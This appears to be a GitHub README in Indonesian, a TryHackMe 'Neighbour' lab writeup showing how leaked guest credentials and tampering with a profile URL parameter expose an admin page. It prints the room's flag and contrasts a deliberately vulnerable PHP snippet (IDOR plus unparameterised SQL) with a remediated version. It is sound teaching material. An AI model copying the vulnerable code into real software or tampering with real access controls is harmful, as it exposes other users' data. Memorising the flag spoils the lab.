

# 🚪 TryHackMe: Neighbour (IDOR & Broken Access Control)
### Laporan Praktik Keamanan Web Pertama (Hands-on Writeup)

[](https://tryhackme.com/room/neighbour)
[](https://owasp.org/www-project-top-ten/2017/A5_2017-Broken_Access_Control)
[](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)
[](#)

---

## 📌 Ringkasan Laboratorium (Lab Overview)

* **Platform:** [TryHackMe](https://tryhackme.com/)
* **Room Name:** [Neighbour](https://tryhackme.com/room/neighbour)
* **Kategori:** Web Application Security / Penetration Testing
* **Konsep Inti:** Insecure Direct Object Reference (IDOR), Parameter Tampering, Broken Access Control, Source Code Review.
* **Tautan Penyelesaian Resmi:** [TryHackMe Room Completed](https://tryhackme.com/room/neighbour?utm_campaign=social_share&utm_medium=social&utm_content=share-completed-room&utm_source=copy&sharerId=6a7a39dc5261433f512fc695)

---

## 🎯 Skenario Serangan (Scenario)

Layanan cloud fiktif bernama **"Authentication Anywhere"** menyediakan portal autentikasi pengguna dengan klaim keamanan tinggi: *"Users can enter their username and password, for a totally secure login process!"*. 

Tugas kita adalah mengaudit sistem tersebut, mencari celah otorisasi pengguna, dan mengakses informasi rahasia pada profil pengguna lain (*neighboring profile* / `admin`).

---

## 🛠️ Metodologi & Langkah Eksploitasi (Step-by-Step Walkthrough)



### Langkah 1: Membangun Terowongan VPN (*OpenVPN Setup*)
Koneksi ke lab TryHackMe diaktifkan menggunakan OpenVPN UDP configuration file:
- **Konfigurasi:** `ap-south-1-amanshop328-regular.ovpn`
- **Alamat IP VPN Lokal:** `192.168.143.33`
- **Target Mesin:** `http://10.49.158.132`

---

### Langkah 2: Pengintaian & Pemeriksaan Kode Sumber (*Reconnaissance*)
Saat membuka halaman beranda portal login di `http://10.49.158.132`, dilakukan peninjauan kode HTML sumber (*Page Source* / `Ctrl + U`):

```html
<p>Don't have an account? Use the guest account! (<code>Ctrl+U</code>)</p>
<!-- use guest:guest credentials until registration is fixed. "admin" user account is off limits!!!!! -->
```

**Temuan:** Terdapat kebocoran kredensial akun uji coba `guest:guest` serta petunjuk bahwa akun `admin` memiliki tingkat hak akses yang lebih tinggi.

---

### Langkah 3: Autentikasi Pengguna Uji Coba (*Guest Login*)
Formulir login diisi dengan:
- **Username:** `guest`
- **Password:** `guest`

Setelah login berhasil, sistem melakukan pengalihan (*302 Redirect*) ke URL profil:
```http
Location: profile.php?user=guest
```

Pada halaman web muncul pesan:
> *"Hi, **guest**. Welcome to our site. Try not to peep your neighbor's profile."*

---

### Langkah 4: Eksploitasi Kerentanan IDOR (*Parameter Tampering*)
Aplikasi web mengandalkan parameter query string URL `?user=` untuk menentukan profil siapa yang ditampilkan. Terjadi celah **Insecure Direct Object Reference (IDOR)** karena server tidak memverifikasi apakah token sesi penyerang berhak mengakses data akun target.

Penyerang memanipulasi parameter query dari `guest` menjadi `admin`:
```http
GET /profile.php?user=admin HTTP/1.1
Host: 10.49.158.132
Cookie: PHPSESSID=...
```

---

### Langkah 5: Ekstraksi Informasi Sensitif & Flag

Respons server mengembalikan data rahasia akun administrator secara utuh:

```html
<h1 class="my-5">Hi, <b>admin</b>. Welcome to your site. The flag is: flag{66be95c478473d91a5358f2440c7af1f}</h1>
```

**🚩 Kunci Jawaban (Flag):**
```text
flag{66be95c478473d91a5358f2440c7af1f}
```

---

## 🔬 Analisis Akar Masalah & Kelemahan Teknis (Root Cause Analysis)

* **CWE Classification:** [CWE-639: Authorization Bypass Through User-Controlled Key](https://cwe.mitre.org/data/definitions/639.html)
* **OWASP Top 10:** [A01:2021 – Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)

### Analisis Kode Rentan vs Kode Aman:

#### ❌ Kode Rentan (Vulnerable Code):
```php
<?php
// SERVER MEMPERCAYAI INPUT CLIENT DARI URL TANPA VALIDASI HAK AKSES
$user = $_GET['user']; 

$query = "SELECT * FROM users WHERE username = '$user'";
// Menampilkan profil berdasarkan parameter URL secara langsung
?>
```

#### ✅ Kode Aman / Remediasi (Remediated Code):
```php
<?php
session_start();

// Validasi autentikasi
if (!isset($_SESSION['authenticated_user'])) {
    header("Location: login.php");
    exit();
}

// Hanya tampilkan data berdasarkan data sesi server yang telah terverifikasi
$current_user = $_SESSION['authenticated_user'];
$query = "SELECT * FROM users WHERE username = ?";
$stmt = $pdo->prepare($query);
$stmt->execute([$current_user]);
$profile = $stmt->fetch();
?>
```

---

## 🛡️ Langkah-Langkah Remediasi & Pertahanan

1. **Gunakan Validasi Otorisasi Berbasis Sesi Server:** Identitas pengguna yang sedang login harus selalu diambil dari *server-side session storage*, bukan dari parameter URL atau input form yang dapat dimanipulasi klien.
2. **Implementasikan Access Control Matrix / Middleware:** Setiap permintaan ke data sensitif harus melalui lapisan verifikasi otorisasi (*Is the current user authorized to view resource X?*).
3. **Hilangkan Komentar Sensitif di Lingkungan Produksi:** Hapus seluruh komentar HTML/JS yang memuat kredensial *default* atau petunjuk arsitektur internal.

---

## 👤 Penulis / Profil
* **Praktikan:** Abdurrahman Assegaf
* **TryHackMe Profile:** [amanshop328](https://tryhackme.com/p/amanshop328)
* **GitHub:** [@AmanSegavo](https://github.com/AmanSegavo)
* **Program:** Google Cybersecurity & Practical Penetration Testing
